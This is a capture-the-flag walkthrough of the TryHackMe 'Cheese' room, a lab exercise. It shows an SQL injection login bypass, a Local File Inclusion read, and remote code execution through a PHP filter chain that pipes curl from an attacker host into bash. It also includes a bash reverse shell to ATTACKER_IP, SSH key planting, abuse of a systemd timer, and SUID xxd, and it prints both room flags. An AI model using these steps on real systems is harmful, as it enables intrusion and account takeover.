# CHEESE CTF | TryHackMe Room

<a> This walkthrough details the step-by-step process of solving the CHEESE CTF, covering reconnaissance, exploitation, privilege escalation, and ultimately gaining root access. The target machine had several vulnerabilities, including SQL injection, Local File Inclusion (LFI), and misconfigured systemd timers.</a>


### **1. Initial Reconnaissance**

**Port Scanning**

- <a> Used Nmap to scan the first 1000 ports (nmap -p 1-1000 <TARGET_IP>).</a>


- <a> Found that FTP (21), SSH (22), and HTTP (80) were open.</a>
- <a> Ran a detailed scan on these ports (nmap -sV -A -p 21,22,80 <TARGET_IP>) to identify services and versions.</a>


**FTP Enumeration**

- <a> Attempted to connect via FTP (ftp <TARGET_IP>), but encountered an error.</a>
 

<a>Possible issues:
- Anonymous login disabled.
- Credentials required (not yet obtained).</a>

**Web Enumeration (Port 80)**
- <a> Visited http://<TARGET_IP> and inspected the page.</a> 


- <a> Checked the source code for hidden comments or secrets—nothing found.</a> 


- <a> Discovered a login page (/login.php). </a> 



### **2. Exploiting SQL Injection**
**SQLmap for Automated Testing**

- <a> Ran SQLmap to test for SQLi:</a> 

  ```bash
    sqlmap -u "http://<TARGET_IP>/login.php" --forms --batch

- 

- <a> Found a SQL injection vulnerability in the login form and the redirection.</a> 
 

- <a> Extracted database information, including a username (comte) and its password hash.</a> 
 


**Manual SQL Injection Bypass**

- <a> Used a classic SQLi payload to bypass authentication:</a> 
  ```bash
     Username: comte ' AND 1='1 --
     Password: anything

- 

- <a> Successfully logged in and was redirected to a dashboard (/dashboard.php).</a> 
 


### **3. Exploiting Local File Inclusion (LFI)**
**Testing LFI in the file Parameter**

- <a> Discovered an LFI vulnerability in the file parameter (e.g., ?file=/etc/passwd).
- Retrieved /etc/passwd, confirming user comte exists.</a> 
 


**Reading PHP Files via Base64 Encoding**
- <a> Used PHP filters to read source code:</a> 
   ```bash
     ?file=php://filter/convert.base64-encode/resource=secret-script.php
 - 


- <a> Decoded the Base64 output to analyze secret-script.php.</a> 
 


**Log Poisoning → RCE**

- <a> Since the server used PHP, leveraged PHP wrappers for RCE:
Generated a malicious payload(revshell) with this bash reverse shell.</a> 
   ```bash
      bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
- <a> I used the php-filter-chain script from the github to generate the filters to upload 
[🔗 Github link for the script ](https://github.com/synacktiv/php_filter_chain_generator.git)
using command</a> 

  ```bash
    python3 php_filter_chain_generator.py --chain '<?= 'curl -s -L <Attacker_IP>/<payload name>|bash' ?>'
- 

- <a> Hosted it on a local server and triggered it via LFI.</a> 
  ```bash
     python3 -m http.server 80
- <a> Set up a listener  and received a shell.</a> 
  ```bash
    nc -lvnp <port>
 - 


**User Flag**
- <a> Found the user.txt in the home/comte directory but it had no permissions for us. as we are logged in as `www-data`</a> 
 

- <a> Found that /home/comte/.ssh/ had write permissions.</a> 
 

- <a> Generated an SSH key pair (ssh-keygen).</a> 
 

- <a> Copied the public key (.pub) into authorized_keys.</a> 
 

- <a> Logged in via SSH and obtained the user flag.</a> 
   ```bash
    ssh comte@<TARGET_IP>
 - 
   ```bash
    THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}


### **4. Privilege Escalation (User → Root)**
**Abusing Systemd Timer Privileges**
- <a> Checked sudo privileges (sudo -l), found systemctl access.</a> 
 
- <a> Discovered a misconfigured systemd timer (exploit.timer). and Modified the timer to execute immediately:</a> 
  ``` bash
    OnBootSec=0  
    OnUnitActiveSec=0  

 - 


- <a> Found the services it will triggered</a> 

 

- <a> I looked in the .services and then I started the timer.</a> 
   ```bash
   sudo systemctl start exploit.timer
 - 


**Reading Root Flag via xxd**
- <a> Found that xxd (a hexdump utility) saved as a copy had SUID permissions.</a> 
 

- <a> Used xxd to read /root/root.txt:</a> 
   ```bash
    xxd "/root/root.txt" | xxd -r
 - 
   ```bash
    THM{dca75486094810807faf4b7b0a929b11e5e0167c}
